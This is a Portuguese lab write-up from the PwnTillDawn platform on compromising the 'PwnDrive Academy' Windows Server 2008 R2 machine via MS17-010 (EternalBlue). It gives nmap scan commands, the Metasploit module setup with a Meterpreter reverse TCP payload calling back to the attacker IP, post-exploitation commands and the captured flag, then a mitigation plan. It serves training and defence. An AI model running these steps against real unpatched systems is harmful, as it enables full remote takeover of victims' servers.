

# Write-Up: PwnDrive Academy

**ATIVO:** PWNDRIVE ACADEMY (PWNTILLDAWN)  
**Autor:** H3XMZ  
**Data do Comprometimento:** 14 de Julho de 2026  
**Classificação:** Portfólio Técnico de Segurança Ofensiva  

---

## 1. Sumário Executivo

Este documento técnico detalha o processo de identificação, validação e exploração de segurança realizado no ativo PwnDrive Academy através da plataforma de laboratórios PwnTillDawn.

O objetivo deste teste foi simular a atuação de um atacante real sob a ótica de um Hacker Ético, mapeando a superfície de ataque exposta e demonstrando o impacto de negócio caso uma vulnerabilidade crítica fosse explorada por cibercriminosos.

Durante a análise, foi identificada uma falha crítica de execução remota de código (RCE) no protocolo de compartilhamento de arquivos SMBv1 (MS17-010 / EternalBlue). A exploração bem-sucedida permitiu comprometer integralmente a integridade do servidor Windows Server 2008 R2, garantindo acesso com o maior nível de privilégio existente no sistema operacional (`NT AUTHORITY\SYSTEM`).

---

## 2. Escopo do Alvo

O escopo da atividade foi limitado estritamente ao endereço IP disponibilizado pelo laboratório:

*   **Nome do Ativo:** PwnDrive Academy
*   **Endereço IP Alvo:** `10.150.150.11`
*   **Sistema Operacional:** Windows
*   **Dificuldade Oficial:** Fácil (Easy)
*   **IP de Ataque (VPN):** `10.66.66.114` (Interface `tun0`)



---

## 3. Fase de Reconhecimento & Varredura (Reconnaissance)

### 3.1 Estabelecimento do Túnel VPN
A conexão com o segmento de rede interna do laboratório foi realizada de forma segura através do protocolo OpenVPN. Devido à necessidade de criação e controle de adaptadores de rede virtuais (`tun`), o comando foi inicializado utilizando privilégios de superusuário (`sudo`).

```bash
sudo openvpn PwnTillDawn.ovpn

3.2 Teste de Conectividade (Ping)
Com a interface virtual ativa, um teste básico de eco ICMP foi disparado para confirmar se o alvo estava ativo e se o tráfego de rede estava sendo roteado corretamente.

Bash
ping -c 4 10.150.150.11
3.3 Varredura de Portas com Nmap
A fim de mapear os serviços que estavam escutando por conexões na máquina de destino, rodou-se uma varredura completa utilizando o Nmap com a flag -O habilitada para detecção de sistema operacional.

Bash
nmap -O 10.150.150.11
Serviços Críticos Identificados:
Porta 445/TCP (Microsoft-DS): Indica que o serviço de compartilhamento de arquivos SMB está ativo.

Portas 137, 139/TCP (NetBIOS): Serviços adicionais de rede do ecossistema Windows.

Detecção de OS: O mecanismo de fingerprinting do Nmap apontou a forte presença do Windows Server 2008 R2 ou equivalente.

4. Análise e Validação de Vulnerabilidade
Servidores Windows legados expondo portas SMB sem patches de correção aplicados são suscetíveis à vulnerabilidade histórica MS17-010 (EternalBlue).

Para validar este vetor sem compreender o estado do servidor, utilizou-se o script oficial do Nmap Scripting Engine (NSE) smb-vuln-ms17-010:

Bash
nmap -p 445 --script smb-vuln-ms17-010 10.150.150.11
5. Fase de Exploração (Exploitation)
Com a certeza de que a máquina apresentava a fragilidade, o framework Metasploit foi utilizado para operacionalizar o exploit.

Bash
msfconsole
5.1 Configuração do Payload e Exploit
Dentro do Metasploit, o módulo correspondente ao EternalBlue foi selecionado. Configurou-se as variáveis do alvo (RHOSTS) e o IP do atacante (LHOST), adotando um payload de conexão reversa do Meterpreter de 64 bits.

Bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.150.150.11
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.66.66.114
exploit
O ataque corrompeu o buffer do sistema com sucesso, resultando na criação de uma sessão interativa:

Plaintext
Meterpreter session 1 opened (10.66.66.114:4444 -> 10.150.150.11:49280)
6. Fase de Pós-Exploração e Captura de Evidências
6.1 Elevação de Privilégios Automática
Uma das principais razões para a severidade crítica do EternalBlue é que o código injetado roda diretamente sob o processo de sistema do Windows. Ao executar os comandos de auditoria no Meterpreter, comprovou-se o controle máximo:

Bash
meterpreter > sysinfo
meterpreter > getuid
meterpreter > shell
6.2 Navegação e Captura da Flag
Com acesso de administrador total, foi instanciado um console do Windows para inspecionar os arquivos armazenados nas pastas de usuários.

DOS
cd C:\Users
dir
O arquivo que continha a flag da máquina foi localizado na Área de Trabalho (Desktop) do Administrator local. O comando type foi executado para ler o arquivo e obter a prova de conceito:

DOS
dir Administrator\Desktop
type Administrator\Desktop\FLAG1.txt
Valor da Flag Extraída:
PwnTillDawnAcademyIsAwesome!!!

O ataque foi finalizado de forma bem-sucedida na plataforma, validando a invasão e registrando o apelido do operador no painel do laboratório.

7. Plano de Mitigação e Correção
Manter portas SMBv1 expostas em sistemas operacionais legados é o cenário perfeito para infecções em larga escala por malwares (como Ransomwares auto-propagáveis). As seguintes ações são recomendadas para sanar estas falhas:

Atualização Imediata de Patches (MS17-010): Aplicar o patch oficial de correção disponibilizado pela Microsoft no boletim correspondente ao sistema em uso.

Desativação Total do SMBv1: O protocolo SMBv1 é inerentemente inseguro e deve ser totalmente desligado em todas as máquinas da rede interna, forçando a comunicação apenas via SMBv2 ou superior.

Migração de Sistemas Legados (EOL): O Windows Server 2008 R2 não recebe mais atualizações de segurança regulares. É altamente recomendado migrar os dados do servidor para um sistema operacional moderno e suportado (ex: Windows Server 2022).

Isolamento de Portas via Firewall: Portas como 445 e 139 devem ser severamente limitadas por firewalls corporativos, impedindo qualquer acesso vindo de redes externas ou redes de colaboradores comuns sem autenticação prévia de VPN corporativa.
